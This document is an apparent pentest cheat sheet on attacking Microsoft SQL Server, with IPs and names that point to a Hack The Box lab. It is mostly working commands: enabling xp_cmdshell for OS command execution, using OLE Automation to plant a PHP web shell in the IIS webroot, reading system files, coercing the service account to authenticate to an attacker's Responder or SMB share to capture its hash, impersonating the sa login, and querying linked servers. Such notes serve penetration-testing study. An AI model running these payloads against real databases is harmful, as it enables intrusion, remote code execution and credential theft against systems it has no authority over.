 #MSSQL
Supports 2 [Auth Mechanisms](https://learn.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server?view=sql-server-ver16)

|**Authentication Type**|**Description**|
|---|---|
|`Windows authentication mode`|This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.|
|`Mixed mode`|Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.|

## Connect 

```cmd
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```
Add -windows-auth or .\\ if local account
## MSSQL default system schemas/databases:

- `master` - keeps the information for an instance of SQL Server.
- `msdb` - used by SQL Server Agent.
- `model` - a template database copied for each new database.
- `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
- `tempdb` - keeps temporary objects for SQL queries.

## Using MSSQL
show databases 
`SELECT name FROM master.dbo.sysdatabases`
Select DB 
`USE htbusers`
Show Tables
`SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`
Show Entries 
`SELECT * FROM users`

## Execute commands 
```mssql
xp_cmdshell 'whoami'

Go
```

#### Enable xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

## Write to Files 
Need to enable [Ole Automation Procedures](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option?view=sql-server-ver16)
```mssql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
## Create a file 
```mssql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
## Read Local files 
```mssql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capturing MSSQL Service hash
#responder
Start [Responder](https://github.com/lgandx/Responder)/ [Impacket-smbserver](https://github.com/fortra/impacket)
```shell
sudo responder -I tun0
```
```shell
sudo impacket-smbserver share ./ -smb2support
```
#### XP_DIRTREE Hash
```mssql
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

#### XP_SUBDIRS Hash
```mssql
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

## Impersonate Users 
Special permission named Impersonate. 
### Identify users you can impersonate 
```mssql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
### Verify Current user and role  
```mssql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
### Impersonate a user 
```mssql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
#### Note
It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

## Communicate with Other Databases 
[Linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16)

Allow DB engines to execute a Transact-SQL statement. 
Search 
```mssql
1> SELECT srvname, isremote FROM sysservers
2> GO
```
Identify User used for the connection
```mssql
1> [EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]]
2> GO
```
